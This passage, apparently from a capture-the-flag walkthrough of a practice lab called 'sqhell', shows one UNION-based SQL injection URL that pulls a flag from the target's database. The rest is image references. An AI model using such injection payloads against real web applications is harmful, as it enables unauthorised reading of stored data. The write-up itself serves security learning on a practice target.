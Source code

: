 Finally we see the tables in the database, flag sounds like the one we’re looking for. Let’s have a look at the contents of it:

```
http://sqhell.thm/post?id=99 union select 1,2,flag,4 from flag
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>















